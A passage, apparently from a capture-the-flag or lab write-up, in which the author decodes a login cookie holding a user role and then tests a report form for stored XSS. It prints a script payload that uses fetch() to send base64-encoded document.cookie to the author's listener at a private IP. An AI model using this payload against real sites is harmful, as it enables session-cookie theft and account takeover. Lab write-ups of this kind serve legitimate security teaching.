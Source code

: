 ![report-logged-in](attachments/report-logged-in.png)

Upon logging in, I received the following cookie:

```
user_data=eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogIiBhZG1pbiIsICJyb2xlIjogInVzZXIifXw2YWE4YzZmN2UyZjM4NmZjZDA4NDY0N2ZhN2E5NmZkZGU1NjI2NDE4YWExMzMwZDY4YTcwZDRiZjg1N2YwOGE2
```

Decoded, the cookie contains:

```json
{"user_id": 6, "username": " admin", "role": "user"}|6aa8c6f7e2f386fcd084647fa7a96fdde5626418aa1330d68a70d4bf857f08a6
```

With this, I proceeded to test the report submission form for XSS using a basic payload to capture cookies:

```html
test<script>fetch("http://10.10.15.7:8000/field?cookie="+btoa(document.cookie));</script>
```

<p align="center">